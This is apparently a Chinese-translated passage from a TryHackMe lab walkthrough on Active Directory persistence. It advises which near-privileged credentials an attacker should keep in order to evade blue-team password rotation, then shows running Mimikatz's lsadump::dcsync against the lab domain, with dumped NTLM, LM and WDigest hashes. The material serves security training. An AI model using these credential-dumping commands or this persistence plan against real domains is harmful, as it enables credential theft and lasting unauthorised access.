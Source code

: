 在开始进行 DC Sync 攻击之前，让我们先讨论一下我们可能追求的凭据。虽然我们应该始终尝试获取特权凭据，比如属于域管理员组的凭据，但这些凭据也是最先进行 “轮换”（蓝队术语，意味着重置账户密码）的凭据。因此，如果我们只有特权凭据，可以肯定的是，一旦蓝队发现我们，他们会立即轮换这些账户，我们可能会失去访问权限。

因此，我们的目标是用接近特权的凭据持久存在。我们并不总是需要完整的 “王国之钥”，我们只需要足够的 “钥匙” 来确保我们仍然可以达到目标，并让蓝队时刻警惕。因此，我们应该尝试通过以下凭据来持久存在：

- 拥有多台机器本地管理员权限的凭据。通常，组织中会有一个或两个拥有几乎所有计算机本地管理员权限的组。这些组通常分为一个用于工作站，一个用于服务器。通过获取这些组成员的凭据，我们仍然可以访问大部分计算机。
- 拥有委派权限的服务账户。有了这些账户，我们可以强制生成黄金票据和白银票据，执行 Kerberos 委派攻击。
- 用于特权 AD 服务的账户。如果我们妥协了像 Exchange、Windows Server Update Services（WSUS）或 System Center Configuration Manager（SCCM）等特权服务的账户，我们可以利用 AD 漏洞再次获得特权立足点。

关于要倾泻和通过持久性的凭据是由许多因素决定的。你需要在思考中寻求创造性，并根据具体情况来处理。但是，在这个房间里，我们要玩得开心一些，让蓝队紧张起来，并且尽可能地倾倒我们能够获取的每一个凭据！

### DCSync All - DCSync 全部

我们将使用 Mimikatz 来收集凭据。使用域管理员账号（DA）通过 SSH 登录到 THMWRK1，并加载 Mimikatz：

```shell title="Terminal"
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

za\administrator@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

让我们首先执行一个特定账户的 DC Sync，使用我们自己的账户：

```shell title="Mimikatz Terminal"
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:<Your low-privilege AD Username>
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00000200 (NORMAL_ACCOUNT)
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04

[...]

* Primary:WDigest *
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```
